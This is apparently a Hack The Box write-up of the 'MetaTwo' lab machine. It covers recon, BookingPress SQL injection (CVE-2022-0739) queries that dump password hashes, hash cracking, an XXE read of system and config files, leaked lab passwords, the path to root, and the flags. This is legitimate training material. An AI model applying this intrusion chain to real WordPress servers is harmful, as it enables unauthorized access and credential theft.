



### nmap
```sh {linenos=true}
# Nmap 7.92 scan initiated Sun Apr  2 17:01:38 2023 as: nmap -sC -sV -oA nmap/metatwo -T4 10.10.11.186
Nmap scan report for 10.10.11.186
Host is up (0.012s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp
| fingerprint-strings:
|   GenericLines:
|     220 ProFTPD Server (Debian) [::ffff:10.10.11.186]
|     Invalid command: try being more creative
|_    Invalid command: try being more creative
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey:
|   3072 c4:b4:46:17:d2:10:2d:8f:ec:1d:c9:27:fe:cd:79:ee (RSA)
|   256 2a:ea:2f:cb:23:e8:c5:29:40:9c:ab:86:6d:cd:44:11 (ECDSA)
|_  256 fd:78:c0:b0:e2:20:16:fa:05:0d:eb:d8:3f:12:a4:ab (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Did not follow redirect to http://metapress.htb/
|_http-server-header: nginx/1.18.0
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port21-TCP:V=7.92%I=7%D=4/2%Time=6429ED3E%P=x86_64-pc-linux-gnu%r(Gener
SF:icLines,8F,"220\x20ProFTPD\x20Server\x20\(Debian\)\x20\[::ffff:10\.10\.
SF:11\.186\]\r\n500\x20Invalid\x20command:\x20try\x20being\x20more\x20crea
SF:tive\r\n500\x20Invalid\x20command:\x20try\x20being\x20more\x20creative\
SF:r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Apr  2 17:02:46 2023 -- 1 IP address (1 host up) scanned in 68.09 seconds
```

### gobuster
```sh {linenos=true}
┌──(kali㉿kali)-[~/htb/metatwo]
└─$ gobuster dir -u http://metapress.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -o dir.out -z
===============================================================
Gobuster v3.2.0-dev
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://metapress.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.2.0-dev
[+] Timeout:                 10s
===============================================================
2023/04/02 17:06:29 Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 302) [Size: 0] [--> http://metapress.htb/wp-admin/]
/login                (Status: 302) [Size: 0] [--> http://metapress.htb/wp-login.php]
/s                    (Status: 301) [Size: 0] [--> http://metapress.htb/sample-page/]
/a                    (Status: 301) [Size: 0] [--> http://metapress.htb/about-us/]
/t                    (Status: 301) [Size: 0] [--> http://metapress.htb/thank-you/]
/rss                  (Status: 301) [Size: 0] [--> http://metapress.htb/feed/]
/ca                   (Status: 301) [Size: 0] [--> http://metapress.htb/cancel-appointment/]
/events               (Status: 301) [Size: 0] [--> http://metapress.htb/events/]
/e                    (Status: 301) [Size: 0] [--> http://metapress.htb/events/]
/event                (Status: 301) [Size: 0] [--> http://metapress.htb/events/]
/c                    (Status: 301) [Size: 0] [--> http://metapress.htb/cancel-appointment/]
/dashboard            (Status: 302) [Size: 0] [--> http://metapress.htb/wp-admin/]
/sa                   (Status: 301) [Size: 0] [--> http://metapress.htb/sample-page/]
/sam                  (Status: 301) [Size: 0] [--> http://metapress.htb/sample-page/]
/about                (Status: 301) [Size: 0] [--> http://metapress.htb/about-us/]
/feed                 (Status: 301) [Size: 0] [--> http://metapress.htb/feed/]
/h                    (Status: 301) [Size: 0] [--> http://metapress.htb/hello-world/]
/th                   (Status: 301) [Size: 0] [--> http://metapress.htb/thank-you/]
/sample               (Status: 301) [Size: 0] [--> http://metapress.htb/sample-page/]
/ab                   (Status: 301) [Size: 0] [--> http://metapress.htb/about-us/]
/atom                 (Status: 301) [Size: 0] [--> http://metapress.htb/feed/atom/]
/abo                  (Status: 301) [Size: 0] [--> http://metapress.htb/about-us/]
/eve                  (Status: 301) [Size: 0] [--> http://metapress.htb/events/]
/hello                (Status: 301) [Size: 0] [--> http://metapress.htb/hello-world/]
/ev                   (Status: 301) [Size: 0] [--> http://metapress.htb/events/]
/can                  (Status: 301) [Size: 0] [--> http://metapress.htb/cancel-appointment/]
/samp                 (Status: 301) [Size: 0] [--> http://metapress.htb/sample-page/]
/he                   (Status: 301) [Size: 0] [--> http://metapress.htb/hello-world/]
===============================================================
2023/04/02 17:09:29 Finished
===============================================================
```

### searchsploit
Wappalyzer gave me this list which I searched in `searchploit`:
- Wordpress 5.6.2
- Moment.js 2.29.1
- Vue.js 2.6.12
- Axios
- core-js 2.6.11
- jQuery 3.5.1
- jQuery Migrate 3.3.2
- Underscore.js 1.8.3

None of these proved useful.

### atom
Found this weird file from `/atom`:

```xml
<?xml version="1.0" encoding="UTF-8"?><feed
        xmlns="http://www.w3.org/2005/Atom"
        xmlns:thr="http://purl.org/syndication/thread/1.0"
        xml:lang="en-US"
        xml:base="http://metapress.htb/wp-atom.php"
        <title type="text">MetaPress</title>
        <subtitle type="text">Official company site</subtitle>
        <updated>2022-06-23T18:05:43Z</updated>
        <link rel="alternate" type="text/html" href="http://metapress.htb" />
        <id>http://metapress.htb/feed/atom/</id>
        <link rel="self" type="application/atom+xml" href="http://metapress.htb/feed/atom/" />
        <generator uri="https://wordpress.org/" version="5.6.2">WordPress</generator>
        <entry>
                <author>
                        <name>admin</name>
                                                        <uri>http://metapress.htb</uri>
                                                </author>
                <title type="html"><![CDATA[Welcome on board!]]></title>
                <link rel="alternate" type="text/html" href="http://metapress.htb/hello-world/" />
                <id>http://metapress.htb/?p=1</id>
                <updated>2022-06-23T18:05:43Z</updated>
                <published>2022-06-23T17:58:30Z</published>
                <category scheme="http://metapress.htb" term="News" />
                <summary type="html"><![CDATA[<!-- wp:paragraph -->
<p>This site will be launched soon.<br>In the meanwhile you can signup to our launch event.</p>
<!-- /wp:paragraph -->
<!-- wp:paragraph -->
<p>Be sure to do it from here:<br><a href="http://metapress.htb/events/">http://metapress.htb/events/</a></p>
<!-- /wp:paragraph -->]]></summary>
                                        <content type="html" xml:base="http://metapress.htb/hello-world/"><![CDATA[
<p>This site will be launched soon.<br>In the meanwhile you can signup to our launch event.</p>
<p>Be sure to do it from here:<br><a href="http://metapress.htb/events/">http://metapress.htb/events/</a></p>
]]></content>
                        </entry>
        </feed>
```

This tells me `admin` is the author so likely the `/login` page also uses `admin`. Nothing else really.

### burpsuite
I then used `burp` to start going through the site. I noticed the `http://metapress.htb/?p=1` page convention, so I ran the `Intruder` to iterate from 1-1000 to see if anything interesting came up. Nothing here.

Before I did that, I noticed the booking an event feature. Since there were a lot of components to this, it seemed like something could be vulnerable here. 

The event feature is uses the `bookingpress-appointment-booking` plugin as shown in the site map within `burp`.

To view more on the plugin, I visited `http://metapress.htb/wp-content/plugins/bookingpress-appointment-booking/readme.txt`. Here we can see the version in use is `1.0.10`

A quick google search shows: [BookingPress < 1.0.11 - SQL Injection](https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/bookingpress-appointment-booking/bookingpress-1011-sql-injection)


### CVE-2022-0739 
Since `searchploit` didn't have anything that matched, I instead found a [POC online](https://github.com/destr4ct/CVE-2022-0739/blob/main/booking-press-expl.py).

This gave the pretty output of:

```sh
░█████╗░██╗░░░██╗███████╗░░░░░░██████╗░░█████╗░██████╗░██████╗░░░░░░░░█████╗░███████╗██████╗░░█████╗░
██╔══██╗██║░░░██║██╔════╝░░░░░░╚════██╗██╔══██╗╚════██╗╚════██╗░░░░░░██╔══██╗╚════██║╚════██╗██╔══██╗
██║░░╚═╝╚██╗░██╔╝█████╗░░█████╗░░███╔═╝██║░░██║░░███╔═╝░░███╔═╝█████╗██║░░██║░░░░██╔╝░█████╔╝╚██████║
██║░░██╗░╚████╔╝░██╔══╝░░╚════╝██╔══╝░░██║░░██║██╔══╝░░██╔══╝░░╚════╝██║░░██║░░░██╔╝░░╚═══██╗░╚═══██║
╚█████╔╝░░╚██╔╝░░███████╗░░░░░░███████╗╚█████╔╝███████╗███████╗░░░░░░╚█████╔╝░░██╔╝░░██████╔╝░█████╔╝
░╚════╝░░░░╚═╝░░░╚══════╝░░░░░░╚══════╝░╚════╝░╚══════╝╚══════╝░░░░░░░╚════╝░░░╚═╝░░░╚═════╝░░╚════╝░
PoC for CVE-2022-0739 - Wordpress BookingPresss Plugin Version < 1.0.11

[*] Requesting: http://metapress.htb/events/
[*] Got Page. Title: 'Events &#8211; MetaPress'
[+] Vulnerable version detected: 1.0.10
[+] Got Nonce: e7a1da68e4
[+] Got AJAX URL: http://metapress.htb/wp-admin/admin-ajax.php
[*] Fetching Target Info...
        [*] Running Data Query: SELECT VERSION(),@@version_comment,@@version_compile_os,0,USER(),DATABASE(),7,8,9
[+] Target Info:
        [+] Version         : 10.5.15-MariaDB-0+deb11u1
        [+] Version Comment : Debian 11
        [+] Compile OS      : debian-linux-gnu
        [+] Database        : blog@localhost
        [+] User            : blog
[*] Leaking Wordpress Credentials...
        [*] Running Data Query: SELECT COUNT(*),2,3,4,5,6,7,8,9 FROM wp_users
[+] User Count: 2
        [*] Running Data Query: SELECT user_login,user_email,user_pass,4,5,6,7,8,9 FROM wp_users LIMIT 1 OFFSET 0
        [*] Running Data Query: SELECT user_login,user_email,user_pass,4,5,6,7,8,9 FROM wp_users LIMIT 1 OFFSET 1

┏━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃ Username ┃ Email                 ┃ Password Hash                      ┃
┡━━━━━━━━━━╇━━━━━━━━━━━━━━━━━━━━━━━╇━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┩
│ admin    │ admin@metapress.htb   │ $P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV. │
│ manager  │ manager@metapress.htb │ $P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70 │
└──────────┴───────────────────────┴────────────────────────────────────┘
```

### john the ripper
`john` allowed me to crack one of these hashes.

*file: hashes.txt*
```txt
admin:$P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV.
manager:$P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70
```

```sh
┌──(kali㉿kali)-[~/htb/metatwo]
└─$ john hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (phpass [phpass ($P$ or $H$) 128/128 AVX 4x3])
Cost 1 (iteration count) is 8192 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
partylikearockstar (manager)
```

This let me login to `metapress.htb/login`.



### CVE-2021-29447
I realized right away there must be something a malicious file to upload in order to get a shell or leak some data. I tried crafting several PHP reverse shells with the `magic bytes` of a PNG to pass Wordpress's file check, but these all failed. Eventually, I found [CVE-2021-29447](https://github.com/motikan2010/CVE-2021-29447).



Decoded gives:

```sh
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:109::/nonexistent:/usr/sbin/nologin
sshd:x:104:65534::/run/sshd:/usr/sbin/nologin
jnelson:x:1000:1000:jnelson,,,:/home/jnelson:/bin/bash
systemd-timesync:x:999:999:systemd Time Synchronization:/:/usr/sbin/nologin
systemd-coredump:x:998:998:systemd Core Dumper:/:/usr/sbin/nologin
mysql:x:105:111:MySQL Server,,,:/nonexistent:/bin/false
proftpd:x:106:65534::/run/proftpd:/usr/sbin/nologin
ftp:x:107:65534::/srv/ftp:/usr/sbin/nologin
```

Repeat for `/etc/nginx/sites-enabled/default`

```php
server {

        listen 80;
        listen [::]:80;

        root /var/www/metapress.htb/blog;

        index index.php index.html;

        if ($http_host != "metapress.htb") {
                rewrite ^ http://metapress.htb/;
        }

        location / {
                try_files $uri $uri/ /index.php?$args;
        }

        location ~ \.php$ {
                include snippets/fastcgi-php.conf;
                fastcgi_pass unix:/var/run/php/php8.0-fpm.sock;
        }

        location ~* \.(js|css|png|jpg|jpeg|gif|ico|svg)$ {
                expires max;
                log_not_found off;
        }

}
```

Repeat for `/var/www/metapress.htb/blog/wp-config.php`
```php
<?php
/** The name of the database for WordPress */
define( 'DB_NAME', 'blog' );

/** MySQL database username */
define( 'DB_USER', 'blog' );

/** MySQL database password */
define( 'DB_PASSWORD', '635Aq@TdqrCwXFUZ' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8mb4' );

/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );

define( 'FS_METHOD', 'ftpext' );
define( 'FTP_USER', 'metapress.htb' );
define( 'FTP_PASS', '9NYS_ii@FyL_p5M2NvJ' );
define( 'FTP_HOST', 'ftp.metapress.htb' );
define( 'FTP_BASE', 'blog/' );
define( 'FTP_SSL', false );

/**#@+
 * Authentication Unique Keys and Salts.
 * @since 2.6.0
 */
define( 'AUTH_KEY',         '?!Z$uGO*A6xOE5x,pweP4i*z;m`|.Z:X@)QRQFXkCRyl7}`rXVG=3 n>+3m?.B/:' );
define( 'SECURE_AUTH_KEY',  'x$i$)b0]b1cup;47`YVua/JHq%*8UA6g]0bwoEW:91EZ9h]rWlVq%IQ66pf{=]a%' );
define( 'LOGGED_IN_KEY',    'J+mxCaP4z<g.6P^t`ziv>dd}EEi%48%JnRq^2MjFiitn#&n+HXv]||E+F~C{qKXy' );
define( 'NONCE_KEY',        'SmeDr$$O0ji;^9]*`~GNe!pX@DvWb4m9Ed=Dd(.r-q{^z(F?)7mxNUg986tQO7O5' );
define( 'AUTH_SALT',        '[;TBgc/,M#)d5f[H*tg50ifT?Zv.5Wx=`l@v$-vH*<~:0]s}d<&M;.,x0z~R>3!D' );
define( 'SECURE_AUTH_SALT', '>`VAs6!G955dJs?$O4zm`.Q;amjW^uJrk_1-dI(SjROdW[S&~omiH^jVC?2-I?I.' );
define( 'LOGGED_IN_SALT',   '4[fS^3!=%?HIopMpkgYboy8-jl^i]Mw}Y d~N=&^JsI`M)FJTJEVI) N#NOidIf=' );
define( 'NONCE_SALT',       '.sU&CQ@IRlh O;5aslY+Fq8QWheSNxd6Ve#}w!Bq,h}V9jKSkTGsv%Y451F8L=bL' );

/**
 * WordPress Database Table prefix.
 */
$table_prefix = 'wp_';

/**
 * For developers: WordPress debugging mode.
 * @link https://wordpress.org/support/article/debugging-in-wordpress/
 */
define( 'WP_DEBUG', false );

/** Absolute path to the WordPress directory. */
if ( ! defined( 'ABSPATH' ) ) {
        define( 'ABSPATH', __DIR__ . '/' );
}

/** Sets up WordPress vars and included files. */
require_once ABSPATH . 'wp-settings.php';
```

### ftp
`config.php` leaked `ftp` creds!

```
metapress.htb | 9NYS_ii@FyL_p5M2NvJ
```

After logging in, I pulled back `mailer/send_mail.php`

```php
<?php
/*
 * This script will be used to send an email to all our users when ready for launch
*/

use PHPMailer\PHPMailer\PHPMailer;
use PHPMailer\PHPMailer\SMTP;
use PHPMailer\PHPMailer\Exception;

require 'PHPMailer/src/Exception.php';
require 'PHPMailer/src/PHPMailer.php';
require 'PHPMailer/src/SMTP.php';

$mail = new PHPMailer(true);

$mail->SMTPDebug = 3;
$mail->isSMTP();

$mail->Host = "mail.metapress.htb";
$mail->SMTPAuth = true;
$mail->Username = "jnelson@metapress.htb";
$mail->Password = "Cb4_JmWM8zUZWMu@Ys";
$mail->SMTPSecure = "tls";
$mail->Port = 587;

$mail->From = "jnelson@metapress.htb";
$mail->FromName = "James Nelson";

$mail->addAddress("info@metapress.htb");

$mail->isHTML(true);

$mail->Subject = "Startup";
$mail->Body = "<i>We just started our new blog metapress.htb!</i>";

try {
    $mail->send();
    echo "Message has been sent successfully";
} catch (Exception $e) {
    echo "Mailer Error: " . $mail->ErrorInfo;
}
```

This leaked more creds:
```
jnelson@metapress.htb | Cb4_JmWM8zUZWMu@Ys
```

### ssh
Got access.
```sh 
┌──(kali㉿kali)-[~/htb/metatwo/files]
└─$ ssh jnelson@metapress.htb
The authenticity of host 'metapress.htb (10.10.11.186)' can't be established.
ED25519 key fingerprint is SHA256:0PexEedxcuaYF8COLPS2yzCpWaxg8+gsT1BRIpx/OSY.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'metapress.htb' (ED25519) to the list of known hosts.
jnelson@metapress.htb's password:
Linux meta2 5.10.0-19-amd64 #1 SMP Debian 5.10.149-2 (2022-10-21) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Oct 25 12:51:26 2022 from 10.10.14.23
jnelson@meta2:~$
```

### privesc
Time for `linpeas.sh`

After going through the output, [passpie](https://github.com/marcwebbie/passpie) stood out so I dug deeper. `.keys` contained a private PGP key which can be cracked.

```sh
┌──(kali㉿kali)-[~/htb/metatwo/files]
└─$ john pgp_key.john --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 65011712 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 7 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
blink182         (Passpie)
1g 0:00:00:02 DONE (2023-04-02 19:46) 0.3558g/s 58.36p/s 58.36c/s 58.36C/s ginger..blink182
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Bingo. Then I exported the passwords using `blink182` as the passpie password.


root creds:
```
root@metapress.htb | p7qfAZt4_A1xo_0x
```

```sh
sudo su
```

and fin. 

### Flags
**user.txt:** `2fadc82095d4e145a7c71cc4da489444`

**root.txt:** `8ea17c71fe42773c642f7371dfdfe4c0`
